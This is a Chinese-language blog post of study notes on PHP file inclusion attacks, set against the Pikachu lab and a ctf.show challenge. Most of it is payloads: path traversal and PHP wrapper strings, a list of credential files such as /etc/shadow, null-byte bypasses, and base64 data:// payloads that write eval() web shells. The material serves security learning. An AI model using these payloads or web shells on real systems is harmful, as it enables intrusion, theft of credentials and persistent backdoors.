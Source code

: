 ```yaml
---
layout: post
title: File Include
subtitle: 文件包含漏洞
date: 2025-06-19 11:55
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: true
---
```

## 1. 文件包含伪协议

#### 1.1.1. 直接包含

```http
http://pikachu.to/vul/dir/dir_list.php?title=../../../../../../../\windows\system32\drivers\etc\hosts
http://pikachu.to/vul/dir/dir_list.php?title=../../../../../../windows/system32/drivers/etc/hosts
```

#### 1.1.2. file://

用于读取本地文件，必须使用绝对路径，php项目读取php文件时会执行其中代码，导致无法读取到源码。

```php
file:///etc/passwd
file://C:\Windows\System32\drivers\etc\hosts
file:///windows/system32/drivers/etc/hosts
```

#### 1.1.3. php://filter

读取指定资源，可以是本地也可以是远程资源，可指定编码类型对内容编码，在读取php文件时可防止其运行，从而读取源码。

```php
php://filter/ {operation}={filter_chain}/resource={source}
php://filter/read=convert.base64-encode/resource=http://www.baidu.com
php://filter/convert.base64-encode/resource=http://www.baidu.com
php://filter/resource=http://www.baidu.com
php://filter/resource=../index.php

operation: read write
filter-chain: convert.base64-encode convert.base64-decode
```

#### 1.1.4. php://input

用于读取原始的 POST 请求数据

```php
php://input

POST数据：
<?php eval($_POST['cmd']);?>
<?php fputs(fopen('shell.php','w'),'<?php @eval($_REQUEST["cmd"]);?>');?>
```

#### 1.1.5. data://

用于在 URL 中嵌入小块数据

```php
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
data://a/b,<?php phpinfo();?>
https://7cdbe539-f220-4021-ac93-fd10996d0f13.challenge.ctf.show
```

#### 1.1.6. zlib://

```php
compress.zlib://shell.php.gz
```

## 2. 敏感文件

```
/etc/shadow(存放密码)
/etc/gshadow(存放密码)
/etc/profile(系统环境)
/etc/group(组的数据库文件)
/etc/my.conf(MYSQL配置信息)
/usr/etc/php.ini(PHP配置信息)
/etc/crontab(crontab配置文件)
/etc/passwd(系统用户数据库文件)
/etc/httpd/conf/httpd.conf(Apache配置信息)
```

## 3. 文件包含绕过

1. %00截断

```
?filename=file:///var/log/httpd/access_log%00
```

1. %23 %00 截断
2. session文件包含
	session文件保存位置：`/var/lib/php/session`，文件名 `sess_phpsessid`

![image.png](https://img.ghostliner.top/MkmNDz.png)
![image.png](https://img.ghostliner.top/ifzPF6.png)

## 4. CTF 实战

```php
<?php
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

代码审计：

- 禁止"php"不能用 `<?php` 可用加密
- 禁止"-"不能用 `php://filter/read=convert.base64-encode`

#### 4.1.1. 方法一

使用`data://a/b;base64,<base64 code>`构造不含"+"的base64编码

_PS. base64末尾等号可直接删除，不影响解码_

```php
<?php
fputs(fopen('shell.php','w'),'<?php phpinfo(); ?>');
?>#1
# base64:
# PD9waHAKZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgcGhwaW5mbygpOyA/PicpOwo/PiMx
```

```php
<?php
fputs(fopen('shell.php','w'),'<?php eval($_POST["code"]);?>');
?>#
# base64:
# PD9waHAKZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbHGNvZGUdXSk7Pz4nKTsKPz4j
```

![image.png](https://img.ghostliner.top/eB1pGC.png)

#### 4.1.2. 方法二

```php
<?php system("ls"); ?>
<?php system("cat fl0g.php"); ?>
```

